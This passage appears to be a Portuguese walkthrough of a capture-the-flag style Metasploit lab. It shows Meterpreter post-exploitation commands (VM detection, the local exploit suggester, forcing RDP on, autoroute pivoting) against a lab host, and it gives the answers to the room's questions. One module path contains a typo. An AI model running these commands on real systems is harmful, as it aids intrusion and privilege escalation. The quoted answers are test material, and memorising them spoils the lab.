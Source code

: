 Isso vai determinar se estou em uma VM.

```
meterpreter > run post/windows/gather/checkvm

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Checking if the target is a Virtual Machine ...
[-] Post interrupted by the console user
```

Irei rodar um comando para checar vários exploits para que possamos usar isso para elevar nossos privilégios.

```
run post/multi/recon/local_exploit_suggester
```

```
[*] 10.10.217.179 - Collecting local exploits for x86/windows...
[*] 10.10.217.179 - 4 exploit checks are being tried...
[-] 10.10.217.179 - Post interrupted by the console user
```

Depois, eu tentei forçar o RDP a ficar disponível, mas provavelmente não funcionou pois não sou administrador:

```
run post/windows/manage/enable_rdp
```

## Makin' Cisco Proud

As perguntas estão abaixo:

Last but certainly not least, let's take a look at the autorouting options available to us in Metasploit. While our victim machine may not have multiple network interfaces (NICs), we'll walk through the motions of pivoting through our victim as if it did have access to extra networks.

### Questions

Let's go ahead and run the command `run autoroute -h`, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the `-n` flag in your answer.

```
run autoroute -s 172.18.1.0 -n 255.255.255.0
```

Additionally, we can start a socks5 proxy server out of this session. Background our current meterpreter session and run the command `search server/socks5`. What is the full path to the socks5 auxiliary module?

```
auxiliary/server//socks5
```

Once we've started a socks server we can modify our _/etc/proxychains.conf_ file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks5 server with proxychains?

Para me ajudar, busquei por um artigo sobre socks5 e como usar. Acabei achando [este](https://www.firewall.cx/vpn/vpn-guides-articles/1191-best-socks5-proxy-guide-torrenting-free-proxy-list.html)



